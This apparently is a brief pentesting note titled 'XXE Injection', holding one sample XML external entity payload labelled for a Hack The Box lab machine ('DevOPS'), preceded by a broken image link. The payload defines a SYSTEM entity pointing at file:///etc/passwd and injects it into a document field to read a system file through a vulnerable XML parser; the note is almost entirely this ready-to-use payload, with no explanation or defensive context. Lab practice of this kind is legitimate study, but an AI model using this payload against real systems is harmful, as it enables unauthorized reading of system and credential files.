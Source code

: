 XXE Injection

## Sample XXE payload (HTB DevOPS)

```
<?xml version="1.0"?>
  <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
  ]>
  <hello>
    <Author>test</Author>
    <Subject>Payload</Subject>
    <Content>&xxe;</Content>
  </hello>

```
